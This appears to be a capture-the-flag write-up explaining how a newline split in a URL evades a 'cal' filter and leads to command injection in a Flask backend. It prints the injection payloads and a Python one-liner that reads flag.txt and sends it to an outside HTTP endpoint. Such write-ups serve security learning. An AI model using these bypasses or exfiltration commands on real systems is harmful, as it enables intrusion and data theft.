 # Bypassing URL Filters to Achieve Remote Code Execution (RCE)

This challenge was really fun, even though it was labeled as Easy.

We start by analyzing two scripts: a Node.js application for the frontend and a Flask application for the backend.

The frontend application allows us to make calls via Puppeteer to the backend application, which provides a static response if the call is successful.

The program generates a cookie containing a secret and sends it to the backend. By examining the backend routes, it’s easy to figure out that by calling the _get_cal_ endpoint, we can potentially get a shell and try to inject arbitrary commands.

The first part of the challenge involved figuring out what was under the attacker's control. The only information available was the backend’s location, which Puppeteer used to query. Therefore, I focused heavily on bypassing the URL filtering mechanism.

In particular, I needed to bypass this condition, which was relatively simple but restrictive:

```js
if (url.includes("cal") || url.includes("%")) {
  res.send('Error: "cal" is not allowed in the URL');
  return;
}
```

With this condition in place, the string 'cal' and the '%' character were not allowed in the URL.

After experimenting with Burp Suite, I realized that it's possible to split the string across lines like this:

```
api/ca
l?...
```

This was the most challenging part of the exploit. By using this trick, we can bypass the defense and hit the backend’s correct route, as the following instruction simply skips newline characters:

```js
await page.goto(url, { timeout: 5000, waitUntil: "networkidle2" });
```

With this in mind, we can now craft a basic payload to inject arbitrary commands, such as:

```
path=/api/ca
l?modifier=;whoami
```

By replicating the application in a local environment, we can confirm that this command allows us to execute arbitrary commands on the backend.

The final step was figuring out how to retrieve the flag or the result we wanted from this capability. For this, I used #REQUESTBIN#, which provides a globally accessible endpoint for capturing HTTP requests. The idea was to send the flag as a path parameter to this endpoint.

After setting up a basic trigger and monitoring the logs on the dashboard, I passed the following payload to admin.js:

```
path=/api/ca
l?modifier=;python3 -c "import http.client; secret=open('./flag.txt').readline(); conn = http.client.HTTPSConnection('my-endpoint'); conn.request('GET', f'/{secret.strip()}'); response = conn.getresponse(); print(response.status, response.reason); data = response.read(); print(data.decode()); conn.close()"
```

This allowed me to extract the flag successfully.
